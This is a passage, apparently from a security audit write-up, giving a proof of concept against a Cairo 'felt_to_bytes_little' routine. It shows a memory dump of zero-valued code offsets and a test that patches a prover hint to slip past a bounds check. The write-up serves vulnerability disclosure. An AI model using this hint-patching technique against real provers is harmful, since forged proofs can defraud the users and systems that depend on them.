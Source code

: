 ### Proof of Concept

To pass the bounds check, we need a code offset that contains the value `0`. Fortunately, from a malicious prover's perspective, there are many zero-value locations in the code segment. When we dump the memory segment with a hint we find multiple zeroes:

```
    # Offset:content

    46: 5210805298050138111
    47: 5192296858534827628530496329220096
    48: 6
    49: 5189976364521848832
    50: 5193354047062507520
    51: 5189976364521848832
    52: 5193354004112834560
    53: 5191102242953854976
    54: 5198983563776458752
    55: 290341444919459839
    56: 5210805478438109184
    57: 5191102225773985792
    58: 2
    59: 0
    60: 2
    61: 0
    62: 51
    63: 1
    64: 0
    65: 0
    66: 0
    67: 116
    68: 2
    69: 0
    70: 0
    71: 0
    72: 186
    73: 0
    74: 0
    75: 0
    76: 4
```

When creating the proof of concept I had some problems calculating the offsets reliably, but I got it to work with a few brute-force tries. The following test worked reliably for me:

```
class TestFeltToBytesLittle:

    def test_felt_to_bytes_exploit(self, cairo_program, cairo_run):

        hint = f"if ids.bytes_len < 135:\n  memory[ids.output] = 2\n"\
            f"elif ids.bytes_len == 135:\n  ids.base == 2 ** 8\n  memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\n"\
            "else:  memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\n  "
            
        with (
            patch_hint(
                cairo_program,
                "memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base\nassert res < ids.bound, f'split_int(): Limb {res} is out of range.'",
                hint,
            ),
        ):
                
            output = cairo_run("test__felt_to_bytes_little", n=1)
```
